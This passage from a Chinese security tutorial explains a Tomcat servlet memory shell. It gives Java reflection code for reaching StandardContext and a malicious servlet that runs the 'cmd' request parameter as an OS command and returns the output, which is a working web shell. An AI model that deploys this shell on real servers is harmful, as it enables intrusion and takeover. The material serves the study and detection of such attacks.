 ### 3.1.2 servlet 内存马 demo 代码分析

先完成第一个任务：找到`StandardContext`，代码如下：

```bash
ServletContext servletContext = request.getSession().getServletContext();
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
```

首先得知道`Field`是什么。在`Java`中，`Field`这个类属于`java.lang.reflect`包，用于表示类的成员变量（字段）。`Field`类提供了访问和操作类的字段的方法，包括获取字段的名称、类型、修饰符等信息，以及在实例上获取或设置字段的值。这样我们就可以实现在运行时动态获取类的信息，绕过一些访问修饰符的限制，访问和操作类的私有成员。

所以上述代码的含义就是：从当前`HttpServletRequest`中获取`ServletContext`对象，然后使用反射机制获取`ServletContext`类中名为`context`的私有字段，并赋值给`Field`类型的变量`appctx`，把这个变量的属性设置为可访问，这样我们后续可以通过反射获取它的值。接着通过反射获取`ServletContext`对象的私有字段`context`的值，并将其强制类型转换为`ApplicationContext`。接下来继续使用反射机制获取`ApplicationContext`类中名为`context`的私有字段，并赋值给`Field`类型的变量`stdctx`，同样将其设置为可访问；最后通过反射获取`ApplicationContext`对象的私有字段`context`的值，并将其强制类型转换为`StandardContext`，到这里，我们就成功找到了`StandardContext`。

接着完成第二个任务：继承并编写一个恶意`servlet`，代码如下：

```bash
Servlet servlet = new Servlet() {
    @Override
    public void init(ServletConfig servletConfig) {}
    @Override
    public ServletConfig getServletConfig() {
        return null;
    }
    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws IOException {
        String cmd = servletRequest.getParameter("cmd");
        {
            InputStream in = Runtime.getRuntime().exec("cmd /c " + cmd).getInputStream();
            Scanner s = new Scanner(in, "GBK").useDelimiter("\\A");
            String output = s.hasNext() ? s.next() : "";
            servletResponse.setCharacterEncoding("GBK");
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
    }
    @Override
    public String getServletInfo() {
        return null;
    }
    @Override
    public void destroy() {
    }
};
```
